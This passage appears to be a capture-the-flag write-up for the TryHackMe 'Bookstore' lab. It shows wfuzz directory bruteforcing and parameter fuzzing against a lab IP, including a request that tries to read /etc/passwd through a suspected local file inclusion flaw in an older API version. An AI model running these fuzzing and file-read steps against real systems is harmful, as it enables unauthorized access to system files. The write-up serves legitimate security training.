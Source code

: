 ## Directory Bruteforcing
```
local@local:~/Documents/tryhackme/bookstore$ wfuzz -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/raft-medium-directories.txt -c --hc 404 -t 50 http://10.10.192.216:5000/FUZZ
********************************************************
* Wfuzz 3.0.3 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.192.216:5000/FUZZ
Total requests: 30000

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                        
===================================================================

000000078:   200        11 L     90 W     825 Ch      "api"                                                                                                          
000001450:   200        52 L     186 W    1985 Ch     "console"                                                                                                      
```

We find **/api** and **/console**.

## Checking /api
![4](/assets/images/thm/bookstore/4.png)  
     
         
We can see the different endpoints and if we notice that there is v2 on the link which surely means the updated version of the api and if we have to guess the previous version, it must start with **/api/v1** as the earlier version of the api has a parameter which is vulnerable to  LFI. 

## Parameter Bruteforcing
```console
local@local:~/Documents/tryhackme/bookstore$ wfuzz -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/burp-parameter-names.txt -c --hc 404 -t 40 http://10.10.192.216:5000/api/v1/resources/books?FUZZ=/etc/passwd 
********************************************************
* Wfuzz 3.0.3 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.192.216:5000/api/v1/resources/books?FUZZ=/etc/passwd
Total requests: 2588

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                        
```